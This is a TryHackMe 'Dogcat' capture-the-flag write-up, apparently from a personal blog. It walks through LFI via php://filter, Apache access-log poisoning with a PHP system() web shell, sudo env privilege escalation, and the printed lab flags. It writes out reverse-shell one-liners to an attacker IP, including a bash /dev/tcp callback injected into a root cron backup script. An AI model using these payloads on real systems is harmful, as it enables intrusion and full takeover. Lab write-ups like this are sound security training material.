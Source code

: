 ```yaml
---
title: "Dogcat - TryHackMe"
category: "THM"
pubDate: 2020-06-02
description: "Writeup for the Dogcat room on TryHackMe"
---
```

[TryHackMe | Dogcat](https://tryhackme.com/room/dogcat)

![](https://i.imgur.com/mj1rbea)

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!

**This machine may take a few minutes to fully start up.**

---

### Setup

```
➜  TryHackMe nmap -A -vv 10.10.121.12
```

```
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I

80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 What is flag 1?

I'm going to try some basic LFI

![](https://imgur.com/IeJGwlC.png)

![](https://imgur.com/UMyhkfJ.png)

I'm going to try with php filter let's see if this works..

[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)

![](https://imgur.com/FXeOWux.png)

```
php://filter/convert.base64-encode/resource=cat
# Let's decode the base64 to see the result
<img src="cats/<?php echo rand(1, 10); ?>.jpg" />
```

![](https://imgur.com/jF0hO89.png)

Nice ! We can see the php code let's see if there is something in the directory

```
php://filter/convert.base64-encode/resource=./cat/../index
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

There we go ! We have the php code let's see if we can do something with it 🤤

So.. There is no way that we can exploit the php code so let's look at the nmap result and we have the apache version, let's see if we can see the log.

```
By default, you can find the Apache access log file at the following path:

    /var/log/apache/access. log.
    /var/log/apache2/access. log.
    /etc/httpd/logs/access_log.
```

If we try with this following url

```
php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log
```

There will be an error its because the code don't like the ".log" let's correct that 😃

On the php code there is this ternary condition "\$\_GET["ext"]" let's use that at the end

![](https://imgur.com/25dLhcZ.png)

Nice ! It worked !! 😵

Let's decode the base64 to see the result 😊

```
10.9.2.228 - - [02/Jun/2020:20:38:04 +0000] "GET /?view=php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log&ext HTTP/1.1" 200 2890 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Now let's see if we can have an RCE attack 🤑

![](https://imgur.com/gZZJUJR.png)

And there it is ! If we put "<?php system($_GET['cmd']);?>" on the user-agent we can execute code on the remote server.

Let's get a reverse shell using the same method..

[php | GTFOBins](https://gtfobins.github.io/gtfobins/php/#reverse-shell)

```

php -r '$sock=fsockopen("10.9.2.228"),"",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![](https://imgur.com/2bjNiUu.png)

```
$ cat flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

### #2 What is flag 2?

```
$ cd ..
$ pwd
/var/www
$ ls
flag2_QMW7JvaY2LvK.txt
html
$ cat flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}
```

### #3 What is flag 3?

```
$ sudo -l
Matching Defaults entries for www-data on 17d35d82c239:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 17d35d82c239:
    (root) NOPASSWD: /usr/bin/env
```

[https://gtfobins.github.io/gtfobins/env/#sudo](https://gtfobins.github.io/gtfobins/env/#sudo)

```
sudo env /bin/sh
```

```
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
flag3.txt
cat flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
```

### #4 What is flag 4?

```
find / -type f -name *.sh 2>/dev/null
/opt/backups/backup.sh
/etc/init.d/hwclock.sh
/lib/init/vars.sh
/usr/local/lib/php/build/ltmain.sh
/usr/share/debconf/confmodule.sh
```

```
cd /opt/backups
ls
backup.sh
backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Let's add a reverse shell on the bash script and get hopefully the last flag 🤓

```
echo '#!/bin/bash' > backup.sh;echo 'bash -i >& /dev/tcp/10.9.2.228/9002 0>&1' >> backup.sh
```

```
➜  ~ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.121.12] 43500
bash: cannot set terminal process group (5464): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4*
cat flag4*
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
root@dogcat:~#
```


